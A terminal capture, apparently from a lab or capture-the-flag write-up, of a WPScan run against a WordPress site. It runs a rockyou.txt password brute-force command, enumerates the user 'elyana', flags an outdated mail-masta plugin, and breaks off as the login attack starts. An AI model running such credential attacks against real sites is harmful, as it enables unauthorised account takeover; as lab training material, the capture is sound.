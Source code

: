````
sudo wpscan --url http://10.10.23.108/wordpress --passwords /home/kali/rockyou.txt

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.23.108/wordpress/ [10.10.23.108]
[+] Started: Thu Jun 12 15:15:19 2025
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.23.108/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>
 |  - http://10.10.23.108/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>

[+] mail-masta
 | Location: http://10.10.23.108/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.23.108/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.23.108/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 1 user/s
````
